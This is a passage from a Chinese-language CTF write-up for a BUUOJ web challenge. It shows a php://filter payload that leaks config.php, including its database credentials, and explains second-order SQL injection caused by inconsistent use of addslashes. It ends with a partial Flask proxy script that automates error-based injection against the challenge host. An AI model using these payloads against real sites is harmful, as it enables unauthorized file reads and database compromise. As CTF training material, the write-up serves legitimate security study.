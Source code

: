 ```php
/index.php?file=php://filter/read=convert.base64-encode/resource=config.php
```

```php
<?php

ini_set("open_basedir", getcwd() . ":/etc:/tmp");

$DATABASE = array(

    "host" => "127.0.0.1",
    "username" => "root",
    "password" => "root",
    "dbname" =>"ctfusers"
);

$db = new mysqli($DATABASE['host'],$DATABASE['username'],$DATABASE['password'],$DATABASE['dbname']);
```

`change.php`中使用`addslashes`对`address`进行转义，但`confirm.php`却并未对`address`进行处理，旧的`address`在`change.php`中直接作为字符串拼接进查询，从而给注入创造了可能

这种攻击方式称为[二次注入](https://web.archive.org/web/20240720071037/https://www.freebuf.com/articles/web/167089.html)

> 所谓二次注入是指已存储（数据库、文件）的用户输入被读取后再次进入到 SQL 查询语句中导致的注入。
> 二次注入是 SQL 注入的一种，但是比普通 SQL 注入利用更加困难，利用门槛更高。普通注入数据直接进入到 SQL 查询中，而二次注入则是输入数据经处理后存储，取出后，再次进入到 SQL 查询。

> 二次注入的原理，在第一次进行数据库插入数据的时候，仅仅只是使用了 addslashes 或者是借助 get_magic_quotes_gpc 对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身还是脏数据。
> 在将数据存入到了数据库中之后，开发者就认为数据是可信的。在下一次进行需要进行查询的时候，直接从数据库中取出了脏数据，没有进行进一步的检验和处理，这样就会造成 SQL 的二次注入。比如在第一次插入数据的时候，数据中带有单引号，直接插入到了数据库中；然后在下一次使用中在拼凑的过程中，就形成了二次注入。

由于使用了`print_r`回显报错信息，因此尝试使用报错注入

通过代理服务器简化请求
```python
import requests
from flask import Flask, request, Response

app = Flask(__name__)
url = 'f9d674ce-9af5-42ce-9d8d-47978f0e7add.node4.buuoj.cn:81'

@app.before_request
def before_request():
    data = request.data or request.form or None
    r = hack(data['address'])
    return Response(r, status=r.status_code)

def hack(address):
    confirm(address)
    r = change()
    delete()
    return r

def confirm(address):
    paramsPost = {'user_name': "1", 'phone': '18888888888', 'address': address}
    requests.post("http://{}/confirm.php".format(url), data=paramsPost)

def change():
    paramsPost = {'user_name': '1', 'phone': '18888888888', 'address': '123'}
    response = requests.post('http://{}/change.php'.format(url), data=paramsPost)
    return response

def delete():
    paramsPost = {'user_name': '1', 'phone': '18888888888'}
```